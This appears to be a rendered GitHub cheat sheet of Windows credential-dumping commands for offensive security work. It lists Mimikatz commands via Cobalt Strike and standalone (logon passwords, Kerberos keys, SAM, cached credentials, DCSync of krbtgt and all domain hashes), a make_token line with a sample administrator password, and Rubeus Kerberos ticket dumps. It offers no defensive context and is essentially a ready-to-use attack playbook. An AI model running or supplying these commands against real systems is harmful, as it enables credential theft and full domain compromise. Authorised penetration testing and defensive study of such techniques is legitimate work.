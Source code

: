 ### Cobalt Strike
```python
mimikatz !sekurlsa::logonpasswords
mimikatz !sekurlsa::ekeys
mimikatz !lsadump::sam
mimikatz !lsadump::cache

make_token marvel\administrator P@ssw0rd
mimikatz @lsadump::dcsync /user:marvel\krbtgt
mimikatz @lsadump::dcsync /domain:marvel.local /all /csv
rev2self
```

### NTLM RC4 Hash Dump
```python
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > res1.txt
type .\res1.txt | sls 'username|password|ntlm'
```

### Kerberos AES256 Hash Dump
```python
mimikatz.exe "privilege::debug" "sekurlsa::ekeys" exit > res2.txt
type .\res2.txt | sls 'username|password|des_cbc_md4'
```

### Local Users Hash Dump (SAM)
```python
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit > res3.txt
type .\res3.txt | sls "user :|hash|aes256"
```

### Domain Cached Credentials
```python
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit
```

### Kerberos Tickets Dump
```python
execute-assembly /root/Rubeus.exe triage
execute-assembly /root/Rubeus.exe dump /nowrap > res4.txt
execute-assembly /root/Rubeus.exe dump /nowrap /luid:0x70331 /service:krbtgt
```
